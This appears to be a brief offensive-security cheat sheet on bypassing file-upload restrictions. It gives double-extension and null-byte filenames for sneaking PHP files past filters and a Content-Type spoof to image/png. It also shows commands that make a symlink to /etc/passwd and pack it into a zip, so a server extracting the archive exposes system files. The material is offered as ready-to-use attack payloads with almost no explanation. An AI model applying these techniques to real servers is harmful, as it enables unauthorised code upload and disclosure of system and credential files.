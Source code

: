 # File Upload

## Bypass

```
hermes.php.jpg
hermes.php%00.png
```
Changing `Content-Type: application/x-php` to `Content-Type: image/png`

## Unzip symlinks

```bash
ln -s ../../../../../../etc/passwd somelink
zip --symlinks hermes.zip somelink
```
